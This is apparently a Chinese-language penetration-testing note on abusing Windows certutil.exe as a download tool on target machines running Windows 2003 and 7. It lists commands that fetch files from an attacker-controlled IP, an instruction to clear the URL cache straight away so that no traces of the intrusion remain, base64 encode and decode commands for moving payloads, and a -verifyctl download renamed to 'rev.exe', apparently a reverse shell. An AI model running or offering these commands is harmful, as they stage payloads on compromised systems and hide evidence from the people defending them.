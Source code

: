 # certutil.exe



**靶机：**windows 2003 windows 7

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt
```

certutil.exe 下载有个弊端，它的每一次下载都有留有缓存，而导致留下入侵痕迹，所以每次下载后，**需要马上执行如下**：

```bash
certutil.exe -urlcache -split -f http://192.168.1.115/robots.txt delete
```



```bash
certutil -encode file file
certutil -decode
```



```
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
if not work 
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe && mv *.bin rev.exe


```
